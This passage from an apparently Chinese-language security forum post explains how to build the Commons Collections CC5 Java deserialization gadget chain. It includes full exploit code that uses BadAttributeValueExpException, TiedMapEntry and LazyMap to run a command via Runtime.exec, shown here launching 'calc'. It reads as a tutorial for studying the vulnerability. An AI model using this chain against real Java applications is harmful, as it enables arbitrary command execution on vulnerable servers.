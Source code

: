 那么也是拼接到`LazyMap#get()`就好了

由于这里组长并没有给出EXP，在自己有一定的理解情况下补充一下

‍

一开始我打算直接加入这一行代码就可以完成逻辑了

```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(tiedMapEntry);
```

但是发现并没有成功，所以继续断点看看

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-7a352e6e29777219eba1993814000de5834d54cd.png)

发现这个`valObj`是String型的，所以得要用反射去把这个值修改为`TiedMapEntry#ToString`即可

‍

最后修改为

```java
     Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "qq");
        lazyMap.remove("qq");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class b = badAttributeValueExpException.getClass();
        Field bfield =  b.getDeclaredField("val");
        bfield.setAccessible(true);
        bfield.set(badAttributeValueExpException,tiedMapEntry);

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
```

‍

# 总结

其实CC的精髓，就是去找谁的`readObject`可以传任意调用对象，并且可以走到 `transform`里头来进行动态类加载或者任意方法调用

最后附上CC的结构图 我个人觉得还是画得比较清晰的

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-1a6694b9cf6a1c3b03c977097fc49acecb35e959.png)
